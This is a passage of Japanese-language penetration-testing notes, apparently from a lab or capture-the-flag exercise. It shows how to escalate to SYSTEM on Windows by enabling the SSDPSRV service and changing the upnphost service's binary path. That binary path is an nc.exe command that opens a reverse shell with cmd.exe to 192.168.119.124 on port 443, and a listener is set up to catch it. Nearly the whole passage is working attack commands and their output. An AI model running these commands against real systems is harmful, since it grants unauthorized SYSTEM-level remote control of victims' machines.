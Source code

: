   →SSDPSRVがスタートしていないと始めることができない

  ```cmd
  sc qc SSDPSRV
  sc qc SSDPSRV
  [SC] GetServiceConfig SUCCESS
  
  SERVICE_NAME: SSDPSRV
          TYPE               : 20  WIN32_SHARE_PROCESS 
          START_TYPE         : 4   DISABLED
          ERROR_CONTROL      : 1   NORMAL
          BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
          LOAD_ORDER_GROUP   :   
          TAG                : 0  
          DISPLAY_NAME       : SSDP Discovery Service  
          DEPENDENCIES       :   
          SERVICE_START_NAME : NT AUTHORITY\LocalService 
  ```

  →START_TYPEがDISABLEDとなっておりサービスを開始することができない

* SSDPSRVの状態を確認する

  ```cmd
  sc query SSDPSRV
  sc query SSDPSRV
  
  SERVICE_NAME: SSDPSRV
          TYPE               : 20  WIN32_SHARE_PROCESS 
          STATE              : 1  STOPPED 
                                  (NOT_STOPPABLE,NOT_PAUSABLE,IGNORES_SHUTDOWN)
          WIN32_EXIT_CODE    : 1077       (0x435)
          SERVICE_EXIT_CODE  : 0  (0x0)
          CHECKPOINT         : 0x0
          WAIT_HINT          : 0x0
  ```

  →サービスは停止状態

* SSDPSRVの開始設定をAUTOMATICに修正する

  ```
  sc config SSDPSRV start= auto
  ```

  ※=とautoの間には空白が必要（重要）

* SSDPSRVを開始する

  ```
  net start SSDPSRV
  ```

* upnphostの設定を変更する

  ```
  sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv 192.168.119.124 443 -e C:\WINDOWS\System32\cmd.exe"
  ```

  ```
  sc config upnphost obj= ".\LocalSystem" password= ""
  ```

* upnphostを開始してリバースシェルを取得する

  ```
  nc -lvnp 443
  net start upnphost
  ```

  



